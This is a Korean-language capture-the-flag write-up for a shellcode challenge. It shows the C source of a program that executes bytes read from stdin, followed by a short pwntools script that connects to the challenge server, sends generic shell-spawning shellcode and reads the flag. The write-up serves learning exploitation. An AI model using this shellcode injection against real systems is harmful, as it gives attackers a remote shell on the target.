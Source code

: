# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-20-05-05.png)

첨부파일

[dist.zip](https://rdmd.readme.io/docs/code-blocks)


# **Write-Up**

green_shell.c 열어보면 다음과 같다. 메모리상의 0x42420000에 0x1000만큼 할당받고 0x100만큼 stdin으로 입력받는 것같다. (자세한내용은 잘 모름)

```c++
#include <stdio.h>
#include <sys/mman.h>

int main() {
    char* shellcode = mmap((void*)0x42420000, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    puts("Let's race");
    fgets(shellcode, 0x100, stdin);
    mprotect(shellcode, sizeof(shellcode), PROT_READ | PROT_EXEC);
    ((void (*)())shellcode)();
}
```

어찌됐든 다음과 같은 python 코드로 shell을 획득한다.

```py
from pwn import *
context(arch='amd64', os='linux')

p = remote("oreos.ctfchallenge.ga", 12345)
p.recvuntil('race')

p.send(asm(shellcraft.sh()))
p.interactive()
```

shell을 획득한 뒤 cat flag.txt를 입력하여 flag를 획득한다.

![](images/2022-05-18-20-05-39.png)


# **FLAG**

**ictf{it's-a_me_sh3llc0d10}**